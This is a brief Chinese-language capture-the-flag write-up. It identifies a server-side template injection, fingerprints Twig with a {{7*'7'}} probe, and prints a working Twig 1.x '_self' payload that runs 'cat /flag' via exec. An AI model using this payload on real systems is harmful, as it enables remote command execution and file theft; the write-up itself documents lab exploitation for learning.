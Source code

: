 存在 ssti, 之后通过下图判断对应的模板引擎

![](assets/202208271928979-170074459625683.png)

`{{7*'7'}}` 返回 Hello 49, 而且是 PHP 语言, 只能是 Twig 了

参考文章 [https://xz.aliyun.com/t/10056](https://xz.aliyun.com/t/10056)

发现 Twig 的版本是 1.x, 关于 `_self` 变量的 payload 直接就能用

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

![](assets/202208272006908-170074459625685.png)
